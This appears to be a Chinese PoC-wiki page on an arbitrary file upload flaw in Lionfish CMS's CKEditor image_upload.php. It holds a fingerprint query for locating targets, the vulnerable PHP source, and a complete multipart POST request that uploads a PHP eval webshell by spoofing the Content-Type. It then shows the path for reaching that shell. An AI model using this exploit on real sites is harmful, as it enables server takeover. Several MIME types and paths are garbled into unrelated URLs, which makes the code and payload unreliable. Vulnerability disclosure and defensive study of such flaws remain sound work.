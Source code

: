# 狮子鱼CMS image_upload.php 任意文件上传

# 狮子鱼CMS image_upload.php 任意文件上传

## 漏洞描述

狮子鱼CMS使用CK编辑器，存在图片上传的绕过，造成 image_upload.php 任意文件上传

## 漏洞影响

```
狮子鱼CMS
```

## 网络测绘

```
"/seller.php?s=/Public/login"
```

## 漏洞复现

登录页面如下

![](/images/202202170928345.png)

漏洞文件为 CK编辑器的 image_upload.php

```php
<?php
 define ( 'IN_BAMBOO', true );
 // 取得根目录
define ( 'ROOT_PATH', '../../../../' );  // back to your root path

$arrType = array (
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/png',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/bmp',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/pjpeg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpeg' 
);
$max_size = 500 * 1024; // 最大文件限制（单位：byte）
$upfile = ROOT_PATH.'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads'; // 图片目录路径
if (!isset($_FILES ['files'])){
	echo '{"result":"400","msg":"未能找到图片，请确认图片是否过大"}';
	exit ();
}
$file = $_FILES ['files'];

if ($_SERVER ['REQUEST_METHOD'] == 'POST') { // 判断提交方式是否为POST
	if (! is_uploaded_file ( $file ['tmp_name'] )) { // 判断上传文件是否存在
		echo '{"result":"400","msg":"图片不存在"}';
		exit ();
	}
	
	if ($file ['size'] > $max_size) { // 判断文件大小是否大于500000字节
		echo '{"result":"400","msg":"上传图片太大，最大支持：'.($max_size/1024).'KB"}';
		exit ();
	}
	if (! in_array ( $file ['type'], $arrType )) { // 判断图片文件的格式
		echo '{"result":"400","msg":"上传图片格式不对"}';
		exit ();
	}
	if (! file_exists ( $upfile )) { // 判断存放文件目录是否存在
		mkdir ( $upfile, 0777, true );
	}
	$imageSize = getimagesize ( $file ['tmp_name'] );
	$img = $imageSize [0] . '*' . $imageSize [1];
	$fname = $file ['name'];
	$ftype = explode ( '.', $fname );
	$time = explode ( " ", microtime () );
	$time = $time [1] . ($time [0] * 1000);
	$time2 = explode ( ".", $time );  
	$time = $time2 [0];
	$returnName=$time."." .end($ftype);
	$picName = $upfile . "/" . $returnName ;
	
	if (! move_uploaded_file ( $file ['tmp_name'], $picName )) {
		echo '{"result":"400","msg":"从:'.$file ['tmp_name'].'移动图片到:'.$picName.'出错"}';
		exit ();
	} else {
		echo '{"result":"200","imgurl":"http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/' . $returnName . '"}';
	}
}

?>
```

其中使用 **Content-Type:** [**http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif**](http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif)  即可绕过上传PHP文件

```plain
POST /Common/ckeditor/plugins/multiimg/dialogs/image_upload.php HTTP/2
Host: 
Content-Type: multipart/form-data;boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Length: 208

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="files"; filename="test.php"
Content-Type: http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif

<?php @eval($_POST[test]);?>
------WebKitFormBoundary8UaANmWAgM4BqBSs—
```

![](/images/202202170928692.png)



访问返回的文件路径

```plain
/Common/http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/xxxxx.php
```

![](/images/202202170928744.png)

